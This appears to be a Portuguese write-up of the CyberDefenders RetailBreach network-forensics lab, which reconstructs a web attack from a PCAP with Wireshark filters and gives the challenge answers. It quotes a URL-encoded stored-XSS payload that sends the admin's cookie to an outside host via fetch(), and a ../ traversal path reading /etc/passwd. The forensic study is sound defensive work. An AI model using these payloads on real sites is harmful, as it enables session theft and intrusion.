





# Write-up: RetailBreach (CyberDefenders)

## Descrição do Desafio
O laboratório **RetailBreach** foca em Análise de Tráfego de Rede (Network Forensics). O objetivo é investigar um arquivo de captura de pacotes (PCAP) para identificar as Táticas, Técnicas e Procedimentos (TTPs) de um atacante, desde o reconhecimento inicial até a exploração de vulnerabilidades web (XSS e LFI).

- **Categoria:** Network Forensics
- **Ferramentas Utilizadas:** Wireshark

## Resolução Passo a Passo

### Q1. Qual é o endereço IP do atacante?
**Explicação:** O primeiro passo na análise de um incidente de rede é isolar a fonte do tráfego malicioso. Através da aba *Statistics > IPv4 Statistics* (ou observando um alto volume de erros 404), foi possível identificar um IP gerando uma quantidade massiva de requisições incomuns.
- **Filtro utilizado:** `http.response.code == 404` (para achar a origem da varredura)
- **Resposta:** `111.224.180.124`
  

---

### Q2. Qual ferramenta o atacante usou para realizar o ataque de diretórios?
**Explicação:** Sabendo o IP do atacante, investiguei os cabeçalhos HTTP (HTTP Headers) das requisições de reconhecimento. O campo `User-Agent` revelou a ferramenta automatizada utilizada para descobrir diretórios e arquivos ocultos no servidor web.
- **Filtro utilizado:** `ip.src == 111.224.180.124 && http.request`
- **Resposta:** `Gobuster`

### Q3. Especifique o payload XSS usado pelo atacante para comprometer a aplicação.
**Explicação:** Para encontrar o payload, foi necessário filtrar o "ruído" gerado pelo Gobuster e focar apenas nas requisições manuais feitas pelo atacante. Localizei uma requisição `POST` para o arquivo `/reviews.php` contendo um código JavaScript malicioso codificado em URL (URL Encoded). O objetivo do script era roubar o cookie de sessão do administrador.
- **Filtro utilizado:** `ip.src == 111.224.180.124 && http.request && http.user_agent != "gobuster/3.6"`
- **Payload Original (URL Encoded):** `%3Cscript%3Efetch%28%27http%3A%2F%2F111.224.180.128%2F%27+%2B+document.cookie%29%3B%3C%2Fscript%3E`
- **Resposta (Decoded):** ``

---

### Q4. Qual o timestamp (UTC) exato em que o administrador visitou a página contendo o script malicioso?
**Explicação:** O ataque de Stored XSS só é efetivo quando uma vítima acessa a página infectada. Filtrei o tráfego em busca de acessos à página `/reviews.php` partindo de IPs diferentes do atacante. Ao encontrar a requisição da vítima, ajustei o relógio do Wireshark para UTC e extraí o momento exato do acesso.
- **Filtro utilizado:** `http.request.method == GET && http.request.uri contains "reviews.php" && ip.src != 111.224.180.124`
- **Resposta:** `2024-03-29 12:09:51`

---

### Q5. Qual foi o session token que o atacante adquiriu do administrador?
**Explicação:** No mesmo pacote identificado na Q4, inspecionei os cabeçalhos da requisição HTTP feita pelo administrador. O valor do cookie `PHPSESSID` que foi enviado pelo navegador da vítima (e consequentemente roubado pelo XSS) estava exposto em texto claro.
- **Filtro utilizado:** *(Mesmo pacote da Q4)*
- **Resposta:** `lqkctf24s9h9lg67teu8uevn3q`

### Q6. Qual é o nome do script que foi explorado pelo atacante?
**Explicação:** De posse do cookie do administrador, o atacante ganhou acesso a áreas restritas. Filtrei as requisições subsequentes do atacante que continham o cookie roubado para mapear seus movimentos laterais. Descobri que ele acessou repetidamente um script específico no painel de administração.
- **Filtro utilizado:** `ip.src == 111.224.180.124 && http.cookie contains "lqkctf24s9h9lg67teu8uevn3q"`
- **Resposta:** `log_viewer.php`

### Q7. Qual payload específico o atacante usou para acessar um arquivo sensível do sistema?
**Explicação:** O script `log_viewer.php` continha uma vulnerabilidade de Local File Inclusion (LFI) / Directory Traversal. Analisando as requisições `GET` para esse arquivo, observei o atacante manipulando o parâmetro `file=` para retroceder diretórios (`../`) e acessar o arquivo de usuários do sistema Linux.
- **Filtro utilizado:** `ip.src == 111.224.180.124 && http.request.uri contains "passwd"`
- **Resposta:** `../../../../../etc/passwd` *(Formatado conforme exigência da plataforma)*

## Conclusão e Cadeia de Ataque (Kill Chain)
Através da análise deste PCAP, foi possível reconstruir toda a cadeia de ataque web:
1. **Reconhecimento:** O atacante utilizou o Gobuster para mapear a estrutura do site.
2. **Armamento e Entrega:** Um payload de Stored XSS foi inserido na área de avaliações (`/reviews.php`).
3. **Exploração:** A execução do script no navegador do administrador resultou no roubo do token de sessão.
4. **Ações nos Objetivos:** Com privilégios administrativos, o atacante explorou uma falha de Directory Traversal em um visualizador de logs para ler o arquivo `/etc/passwd`.
